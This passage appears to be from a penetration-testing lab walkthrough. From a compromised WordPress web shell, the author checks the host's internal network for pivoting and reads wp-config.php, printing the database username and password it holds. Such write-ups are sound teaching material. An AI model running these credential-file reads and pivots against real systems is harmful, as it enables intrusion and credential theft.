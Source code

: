First, let's check if I got into a pivoting point.

```bash
www-data@DANTE-WEB-NIX01:/$ hostname -I
hostname -I
172.16.1.100 
```

The network 172.16.1.0/24 might be the one that we need to pivot into.

Since the shell is spawned on wordpress webroot (`/var/www/html/wordpress/`).

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
robots.txt
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

`wp-config.php` usually contains DB credentials or sensitive data. Let's read it.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH

<SNIP>

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'shaun' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );
```